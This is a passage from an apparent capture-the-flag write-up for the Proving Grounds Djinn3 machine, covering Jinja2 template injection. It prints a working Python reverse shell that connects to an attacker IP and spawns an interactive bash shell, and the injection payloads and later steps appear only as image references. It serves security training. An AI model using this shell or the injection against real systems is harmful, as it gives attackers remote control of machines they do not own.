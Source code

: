 ### Payload to list files/directories in remote server

![img](/assets/images/CTF/Proving_Grounds/Djinn3/jinja.png)

[More Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

### Python reverse shell

```py
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.45.249",1234)); os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash", "-i"])
pty.spawn("sh")
```

**Download reverse shell to the attacking machine**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/revshell1.png)

**HTTP Server Log to confirm download**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/httplog.png)

**Code Execution**
